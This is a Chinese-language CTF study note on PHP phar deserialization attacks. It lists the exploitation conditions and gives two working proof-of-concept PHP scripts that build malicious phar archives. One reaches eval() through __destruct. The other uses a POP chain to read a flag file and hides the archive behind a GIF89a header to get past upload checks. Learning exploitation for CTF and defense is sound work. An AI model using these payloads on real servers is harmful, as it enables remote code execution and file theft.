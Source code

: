 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file、
file_exists、copy、unlink

phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
//$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
//$phar->setStub(file_get_contents('a.png')."<?php __HALT_COMPILER(); ?>"); //防止检测也可以直接加一个小图片在前面

$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。
如果是触发读文件需要有回显，如echo





